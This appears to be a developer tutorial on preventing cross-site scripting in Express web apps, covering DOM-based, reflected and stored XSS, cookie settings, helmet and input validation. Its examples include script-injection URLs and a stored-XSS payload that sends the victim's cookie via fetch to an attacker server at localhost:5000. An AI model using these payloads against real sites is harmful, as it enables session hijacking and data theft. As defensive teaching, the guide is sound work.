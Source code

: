 # Preventing Crosss Site Scripting (XSS) Attacks

## DOM-Based XSS Attacks

Using user inputs, including URL parameters, an attacker can inject malicious JavaScript and get the code to execute on a target’s machine. For example, imagine a site that dynamically displays a user’s name using the following code:

```javascript
greeting.innerHTML = "Welcome " + name + "!";
```

An attacker could inject code in the form of a script tag in the name field that would be run any time the name was loaded. This could also be inserted as a URL parameter:

```plaintext
http://somesite.com/userpage.html?name=<script>maliciousFunc(variable)</script>

# After using a URL shortener
https://somesite.com
```

## Reflected XSS Attack

Using malicious links or requests to the server, the attacker gets the server to execute code and return a response that could be potentially harmful. For example, an attacker could get a user to click on a link that encoded the following request:

```plaintext
http://www.somesite.com/profile?name=<script>maliciousFunc(variable)</script>
```

The `maliciousFunc` may send the profile information directly to the attacker's own server.

## Stored XSS Attack

Again, using user inputs, an attacker may be able to store malicious code on the database. Say in a review field on a travel booking site. An attacker can then use that code to send personal and sensitive data to their own server. In the review site example, the following could be inserted (if inputs are not sanitized) to steal a user’s authentication cookie, if an attacker was hosting a server at localhost:5000.

```plaintext
<script>fetch(`http://localhost:5000?data={document.cookie}`)</script>
```

Then using `encodeURIComponent` to ensure that the script will be read as a parameter:

```plaintext
http://rentaroom.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E
```

## Securing Cookies and Headers

Since cookies contain sensitive data about a user and can be dangerous if stolen, it’s important to configure them properly. In an `express-session` generated cookie, you can ensure that the `httpOnly` and the `secure` options are activated. These will ensure that cookies are only transferred through http reqests and ensure that that connection has a verfied certificate, respectively. This can mitigate a client-side script from accessing the cookies.

```javascript
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
)
```

It’s also important to set security headers to keep attackers from sending fraudulent or malicious requests. Luckily, there are some modules that are already created to do this for us. One is `helmet` , and it will configure the `contentSecurityPolicy` and 11 other policies for us automatically. To use it, include it in your server code as such:

```javascript
app.use(helmet());
```

## Data Validation and Santitaion

It’s important to validate and sanitize any inputs that we receive from a user. A validation is confirming that the information is in a certain format, or does not contain certain characters or patterns (like a lingering single quote). Sanitation is the removal of those patterns before code continues to run, to protect the server from malicious code execution.

One package that we can use is `express-validator` by importing one of its useful functions: `check`

```javascript
const { check } = require("express-validator");
...
app.post("/login", [
  check('email').isEmail(),
], (req, res) => {});
```

In this example, the email would have been attached to the `req` object for accessing. Notice that the middleware here is in the form of an array, this way we can do multiple checks.

## DOM-Based Precautions

It is also a good idea to be very careful about what user inputs you are allowing to display on your web page. Document properties and methods like `document.innerHTML` and `document.write` will creat HTML elements that are executable if not handled carefully.

It’s best practice not to directly set inputs as content in the document, but also to ensure that you are validating and sanitizing all user inputs as well.

JavaScript does contain some methods that will input text rather than executable code like `element.textContent` rather than using `innerHTML` to ensure that your content is actually a string and not executable. But, even still, it would be safer to not directly set user input where possible.

